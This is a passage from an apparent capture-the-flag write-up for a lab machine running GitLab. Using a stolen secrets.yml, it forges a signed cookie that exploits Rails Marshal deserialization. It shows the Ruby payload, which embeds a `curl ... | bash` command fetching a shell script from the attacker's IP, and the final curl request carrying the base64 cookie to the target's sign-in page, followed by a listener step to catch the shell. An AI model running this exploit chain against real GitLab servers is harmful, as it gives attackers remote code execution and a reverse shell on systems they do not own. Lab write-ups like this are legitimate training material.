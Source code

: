 Let's run 

```bash
gitlab-ctl reconfigure
```
Let's change the /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml file with the one that we got!
Now, let's run

```bash
gitlab-ctl restart
gitlab-rails console
```
Here in the console, we'll craft our cookie to gain access!


Our payload to craft it:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl http://10.10.14.3:8000/shell | bash` %>") 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

<img src="cookie.png">

Final payload:

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4zOjgwMDAvc2hlbGwgfCBzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--a9181bfd8d26c33c9cf0c6fedcff269a3685902b" -k
```

Let's set a listener, and grab that shell

